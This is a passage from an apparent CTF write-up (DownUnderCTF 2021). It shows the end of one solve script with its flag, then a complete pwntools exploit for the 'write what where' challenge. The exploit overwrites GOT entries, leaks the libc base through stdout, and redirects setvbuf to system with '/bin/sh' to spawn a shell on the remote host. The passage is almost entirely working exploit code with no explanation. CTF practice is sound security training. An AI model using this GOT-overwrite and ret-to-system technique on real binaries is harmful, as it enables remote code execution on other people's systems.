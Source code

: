 ```python

p.recv()
p.sendline(b'DUCTF')
print(p.recv())
```

```
DUCTF{you_aced_the_quiz!_have_a_gold_star_champion}
```

---
### Pwn Challenge

# write what where [310 pts]

```python
from pwn import *

r=remote("pwn-2021.duc.tf", 31920)
# r=process("./write-what-where")
b=ELF("./write-what-where")
context.log_level='debug'
lib=ELF("./libc.so.6")
# lib=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
exit=0x404038
r.send(p32(b.sym['main']+33))
r.send(str(exit).rjust(9,'0'))

r.send(p32(b.plt['puts']))
r.send(str(b.got['setvbuf']).rjust(9,'0'))

r.send(p32(0))
r.send(str(b.got['setvbuf']+4).rjust(9,'0'))
r.send(p32(0x404050))
r.send(str(0x404060).rjust(9,'0'))

r.send(p32(0))
r.send(str(0x404060+4).rjust(9,'0'))
r.send(p32(b.sym['main']))  
r.send(str(exit).rjust(9,'0'))

base=u64(r.recvuntil(b'\x7f')[:-7:-1][::-1].ljust(8,b'\x00'))-lib.sym['_IO_2_1_stdout_']
log.info(hex(base))
system=base+lib.sym['system']
binsh=base+list(lib.search(b'/bin/sh'))[0]
log.info(hex(system))
r.send(p32(b.sym['main']+33))
r.send(str(exit).rjust(9,'0'))
r.send(p32(system&0xffffffff))
r.send(str(b.got['setvbuf']).rjust(9,'0'))

r.send(p32((system>>32)))
r.send(str(b.got['setvbuf']+4).rjust(9,'0'))

r.send(p32(binsh&0xffffffff))
r.send(str(0x404060).rjust(9,'0'))
r.send(p32((binsh>>32)))
r.send(str(0x404064).rjust(9,'0'))
# r.send(b'/sh\x00')
# r.send(str(0x404054).rjust(9,'0'))
# r.send(b'/sh\x00')
# r.send(str(0x404054).rjust(9,'0'))
r.send(p32(b.sym['main']))
```